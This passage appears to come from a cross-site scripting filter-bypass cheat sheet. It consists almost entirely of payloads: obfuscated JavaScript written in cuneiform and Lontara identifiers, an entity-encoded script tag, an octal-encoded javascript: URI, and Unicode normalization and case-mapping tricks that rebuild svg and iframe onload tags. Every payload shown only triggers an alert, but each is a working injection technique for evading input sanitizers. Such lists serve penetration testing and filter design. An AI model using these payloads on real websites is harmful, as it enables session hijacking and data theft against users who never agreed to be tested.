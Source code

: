 ```javascript
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```

### Bypass using Lontara

```javascript
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
```

More alphabets on http://aem1k.com/aurebesh.js/#

### Bypass using ECMAScript6

```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

### Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

### Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
%EF%BC%9E becomes >
%EF%BC%9C becomes <
```

Bypass using Unicode converted to uppercase

```javascript
İ (%c4%b0).toLowerCase() => i
ı (%c4%b1).toUpperCase() => I
ſ (%c5%bf) .toUpperCase() => S
K (%E2%84%AA).toLowerCase() => k

<ſvg onload=... > become <SVG ONLOAD=...>
<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
```
